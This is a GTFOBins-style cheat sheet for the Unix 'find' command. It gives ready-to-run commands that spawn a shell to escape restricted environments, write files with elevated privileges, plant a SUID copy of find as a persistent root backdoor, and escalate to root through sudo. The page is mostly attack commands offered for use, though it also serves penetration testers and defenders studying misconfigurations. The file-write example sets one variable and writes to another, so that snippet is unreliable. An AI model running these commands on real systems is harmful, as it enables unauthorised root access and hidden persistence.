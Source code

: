 # GTFOBin: find

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
find . -exec /bin/sh \; -quit
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

DATA is a format string, it supports some escape sequences.

```
LFILE=file_to_write
find / -fprintf "$FILE" DATA -quit
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo find . -exec /bin/sh \; -quit
```